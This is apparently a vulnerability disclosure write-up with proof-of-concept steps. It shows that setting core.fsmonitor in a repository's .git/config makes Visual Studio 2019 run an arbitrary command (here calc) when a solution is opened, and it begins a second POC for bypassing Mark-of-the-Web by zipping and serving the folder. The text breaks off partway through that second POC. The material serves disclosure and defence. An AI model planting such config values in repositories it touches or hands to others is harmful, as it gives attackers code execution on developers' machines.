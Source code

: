 ```plain
C:\Users\justin> dir source\repos\ConsoleApp1
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos\ConsoleApp1

13/08/2021  04:45 PM    <DIR>          .
13/08/2021  04:45 PM    <DIR>          ..
13/08/2021  04:45 PM    <DIR>          ConsoleApp1
13/08/2021  04:45 PM             1,139 ConsoleApp1.sln
               1 File(s)          1,139 bytes
               3 Dir(s)  64,797,212,672 bytes free

C:\Users\justin> "c:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\cmd\git.exe" -C source\repos\ConsoleApp1 init
Initialized empty Git repository in C:/Users/justin/source/repos/ConsoleApp1/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
C:\Users\justin> notepad source\repos\ConsoleApp1\.git\config

[... Edit the file ...]

C:\Users\justin> type source\repos\ConsoleApp1\.git\config
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

Open the `.sln` file within Visual Studio. Observe that `calc.exe` pops.

```plain
C:\Users\justin> start source\repos\ConsoleApp1\ConsoleApp1.sln

[... Visual Studio opens as a graphical application ...]
[... calc.exe pops ...]
```

### Visual Studio 2019 POC (Bypassing the MOTW protection)

Following on from the previous POC, use `explorer.exe` to compress the solution folder as a `.zip` file.

Use a Python webserver to publish the `.zip` file using HTTP:

```plain
C:\Users\justin> cd source\repos

C:\Users\justin\source\repos>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos

13/08/2021  04:52 PM    <DIR>          .
13/08/2021  04:52 PM    <DIR>          ..
13/08/2021  04:46 PM    <DIR>          ConsoleApp1
13/08/2021  04:52 PM            26,829 ConsoleApp1.zip
               1 File(s)         26,829 bytes
               3 Dir(s)  64,576,872,448 bytes free
```